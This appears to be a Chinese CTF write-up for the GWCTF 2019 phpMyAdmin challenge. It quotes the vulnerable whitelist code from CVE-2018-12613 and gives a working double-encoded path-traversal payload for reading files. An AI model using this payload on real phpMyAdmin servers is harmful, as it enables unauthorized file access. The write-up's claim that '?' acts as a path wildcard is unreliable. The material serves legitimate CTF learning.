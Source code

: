 ﻿@[toc]
# [GWCTF 2019]我有一个数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210609184720299.png)
这题目长得着实畸形，但是看这字符像是编码出问题然后出来的结果

没有其他提示，发现前辈用`dirb`扫描目录出来`phpmyadmin`目录，可以访问

我们就直接试一试，对了，扫描记得设置延迟，不然一直报`429`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210609191248745.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)根据版本看看有没有可以利用的漏洞，

apache/2.4.29(ubuntu)
phpmyadmin/4.8.1 远程文件包含漏洞（CVE-2018-12613）

>[CVE-2018-12613](https://www.cnblogs.com/leixiao-/p/10265150.html)

好家伙，看了这个漏洞分析之后啊，我想来warmup那道题，用的也是类似的漏洞，先传参进去，然后判断问号前的东西在不在白名单中，如果正确的话就跳出来，如果不在白名单里就`url`解码一波，然后判断问号之前的是不是在白名单里，如果是就会返回`true`，每次判断之前判断的都是`$page.?`，所以没有问号的话就会截取整个url，于是乎我们可以向其中传一个二次编码之后的问号(`%253f`)

```php
  $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;

```

`payload`:'?target=db_datadict.php%253f/../../../../../flag'

emm返回上级目录的次数是我试出来的。
不用二次编码的`?`也可以直接绕过，在编码`$page`上面的第一个判断就返回`true`了

再解释一下这个`?`传到路径里怎么解释，平白无故一个问号直接放到路径里面，能成功包含吗，解释就是，`?`是通配符，可以代替任意单个字符，所以包含路径可以匹配到`flag`在的路径。
例如：
`index.php?../`=>`index.php../`代替为空

**旧友新朋吖**
